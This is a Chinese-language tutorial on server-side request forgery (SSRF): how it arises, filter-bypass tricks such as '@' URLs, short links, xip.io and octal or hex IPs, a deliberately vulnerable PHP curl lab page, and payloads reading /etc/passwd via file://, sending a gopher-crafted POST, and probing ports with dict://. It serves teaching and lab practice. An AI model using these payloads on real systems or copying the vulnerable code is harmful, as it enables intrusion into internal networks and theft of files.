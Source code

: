 # SSRF服务器端请求伪造
`SSRF`服务端请求伪造漏洞，也称为`XSPA`跨站端口攻击，是一种由攻击者构造一定的利用代码导致服务端发起漏洞利用请求的安全漏洞，一般情况下`SSRF`攻击的应用是无法通过外网访问的，所以需要借助目标服务端进行发起，目标服务器可以链接内网和外网，攻击者便可以通过目标主机攻击内网应用。

## 描述
`SSRF`是利用漏洞伪造服务器端发起请求，从而突破客户端获取不到数据限制，通常攻击者通过伪造服务器请求与内网进行交互，从而达到探测内网，对内网进行攻击的目的，通常与多种攻击方式相结合。服务器端请求伪造攻击将域中的不安全服务器作为代理使用，这与利用网页客户端的跨站请求伪造攻击类似，例如处在域中的浏览器可作为攻击者的代理。  
在一些情况下由于业务需要，服务端程序需要从其他服务器应用中获取数据，例如获取图片、数据等，但是由于服务器没有对其请求的目标地址做过滤和限制，导致黑客可以利用此缺陷请求任意服务器资源，其中就包含隐匿在内网的应用。很多情况下认为服务器在内网不会受到黑客攻击，便放任漏洞不管，不做补丁修复和版本升级，弱口令遍布内网，在`SSRF`漏洞面前这些漏洞都会造成很大危害。`SSRF`漏洞一般为`HTTP／HTTPS`方式出现，但类似`TCP Connect`方式也可以探测内网的IP活跃状态和端口的开放情况，但此类危害较小。

### SSRF漏洞易出现的场景
能够对外发起网络请求的地方，就可能存在`SSRF`漏洞。
* 从远程服务器请求资源`Upload from URL，Import & Export RSS Feed`。
* 数据库内置功能`Oracle、MongoDB、MSSQL、Postgres、CouchDB`。
* `Webmail`收取其他邮箱邮件`POP3、IMAP、SMTP`。
* 文件处理、编码处理、属性信息处理`ffmpeg、ImageMagic、DOCX、PDF、XML`。
* 通过`URL`地址分享页面。
* 未公开的`api`实现以及其他调用`URL`的功能。

### SSRF漏洞的利用
* 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的`banner`信息。
* 攻击运行在内网或本地的应用程序，比如溢出。
* 对内网`web`应用进行指纹识别，通过访问默认文件实现。
* 攻击内外网的`web`应用，主要是使用`GET`参数就可以实现的攻击，比如`Struts2`、`sqli`等。
* 利用`file`协议读取本地文件等。

### 绕过方式
#### 攻击本机

```
http://127.0.0.1:80
http://localhost:22
```

#### 利用@绕过

```
http://example.com@127.0.0.1
# 这里的example.com可以任意替换，
```

#### 利用短地址绕过

```
http://127.0.0.1可以变为http://suo.im/5UHEvD
# 转换地址有很多，可以采用http://tool.chinaz.com/tools/dwz.aspx
```

#### 特殊域名绕过

```
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

#### 利用Enclosed alphanumerics

```
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### 利用句号代替点绕过

```
127.0.0.1 变为127。0。0。1
```

#### 使用其他进制绕过

```
127.0.0.1
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433（转16进制，再转10进制）
16进制整数格式：0x7F000001
还有一种特殊的省略模式，例如127.0.0.1这个IP可以写成127.1、10.0.0.1这个IP可以写成10.1
```

#### 特殊域名绕过

```
DNS解析
http://127.0.0.1.xip.io/
# 会解析到本地的127.0.0.1
```

## 实验靶机示例
使用`PHP`构建靶机作为示例，编写如下代码`test.php`，实际上避免这类攻击的重要原则就是过滤用户输入即永远不要相信用户的输入。

```php
<?php
// 创建一个新curl资源
$ch = curl_init();
// 设置URL和相应的选项
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
// 抓取URL并把它传递给浏览器
curl_exec($ch);
//关闭cURL资源，并且释放系统资源
curl_close($ch);
```

### file协议的运用
在上述示例中发起一个`GET`请求便可以获取敏感文件的信息。

```
http://192.168.163.150/test.php?url=file:///etc/passwd
```


### gopher协议的运用
`gopher`协议是比`http`协议更早出现的协议，现在已经不常用了，但是在`SSRF`漏洞利用中`gopher`可以说是万金油，因为可以使用`gopher`发送各种格式的请求包，这样变可以解决漏洞点不在`GET`参数的问题了。   
基本协议格式：`URL:gopher://<host>:<port>/<gopher-path>`。  
进行如下请求可以发送一个`POST`请求，且参数`cmd`的值为`balabal`，这里构造`gopher`请求的时候，回车换行符号要进行`2`次`url`编码`%250d%250a`。

```
http://192.168.163.150/test.php?url=gopher://192.168.163.1:80/_POST%20/evil.php%20HTTP/1.1%250d%250aHost:%20192.168.163.1%250d%250aUser-Agent:%20curl/7.43.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=balabala
```

### dict协议应用
`dict`协议是一个字典服务器协议，通常用于让客户端使用过程中能够访问更多的字典源，但是在`SSRF`中如果可以使用`dict`协议那么就可以轻易的获取目标服务器端口上运行的服务版本等信息。 

```
http://192.168.163.150/test.php?url=dict://192.168.163.1:3306/info 
```


## 每日一题

```
https://github.com/WindrunnerMax/EveryDay
```

## 参考

```
https://zhuanlan.zhihu.com/p/116039804
https://www.freebuf.com/column/157466.html
https://juejin.cn/post/6844903824948199431
https://www.cnblogs.com/bmjoker/p/9614789.html
https://blog.csdn.net/nz9611/article/details/96011013
https://zh.wikipedia.org/wiki/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0
```

